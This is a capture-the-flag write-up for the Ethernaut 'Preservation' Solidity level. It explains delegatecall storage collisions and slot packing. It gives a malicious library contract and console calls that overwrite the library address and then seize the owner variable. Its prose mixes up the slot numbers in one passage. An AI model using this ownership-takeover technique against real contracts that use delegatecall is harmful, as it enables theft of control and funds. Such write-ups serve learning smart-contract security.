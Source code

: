 # Day 16 - Preservation

## deletagecall (day 6)

- If Contract A makes a delegatecall to Contract B, it allows Contract B to freely mutate its storage A, given Contract B’s relative storage reference pointers.

**Hint**: if Contract A invokes Contract B, and you can control Contract B, you can easily mutate the state of Contract A.

![storage on delegatecall](./images/delegatecall-storage.jpeg)

## storage (day 12)

![storage](./images/more-efficient-storage.jpeg)

- Ethereum allots 32-byte sized storage slots to store state. Slots start at index 0 and sequentially go up to **2²⁵⁶** slots.

- Basic datatypes are laid out contiguously in storage starting from position 0, then 1, until 2²⁵⁶-1.

- If the combined size of sequentially declared data is less than 32 bytes, then the sequential data points are packed into a single storage slot to optimize space and gas.

**Hint**: If you can match up storage data locations between Contract A and Contract B, you can precisely manipulate the desired variables in Contract A.

The `LibraryContract` is trying to modify the variable at index 0 but on the calling contract, index 0 is the address of timeZone1Library. So first you need to call `setTime()` to replace timeZone1Library with a malicious contract. In this malicious contract, setTime() which will modify index 3 which on the calling contract is the owner variable!

Deploy the malicious library contract
Convert the address into uint.
Call either setFirstTime() or setSecondTime() with the uint value of (2).
Now that the address of timeZone1Library has been modified to the malicious contract, call setFirstTime() with the uint value of your player address.

## Solution

- Notice that `Preservation.sol` stores owner address at slot 2. Create a malicious contract that has the same storage layout

- Create a setTime function inside BadContract which updates slot 2 with your wallet address.

- Deploy BadLibraryContract to Ropsten in Remix, and save its instance address. Then, calculate the `uint(address)` to derive the input variable

In my case, my malicious contract address is `0x110139f3822dd6Ac959DB2d8DeEd834C93093dd4` and uint256(0x110139f3822dd6Ac959DB2d8DeEd834C93093dd4) is `97080192111154721577086637833709371438884535764`

my player address is `0xf96cA963Fb2bE5c4eAF47C22c36cF2Fa26231e7f` while the uint256 value is `1423961938414718297468094872586360665605931212415`

**Note**: it is important to use the same function name setTime in the malicious contract as in LibraryContract because Preservation.sol invokes functions by name:

```js
pragma solidity ^0.6.0;

contract LibraryContract {

  // stores a timestamp
  address doesNotMatterWhatThisIsOne; // slot 0
  address doesNotMatterWhatThisIsTwo; // slot 1
  address maliciousIndex; // slot 2

  function setTime(uint _time) public {
    maliciousIndex = address(_time);
  }
}

// first time call to set the timeZone1Library address to our malicious contract address
await contract.setFirstTime("<insert uint value of your malicious library contract>")

// second time call so that timeZone1Library.delegatecall will trigger our malicious setTime function and set the owner to ourselves
await contract.setFirstTime("<insert uint value of your player>")

```
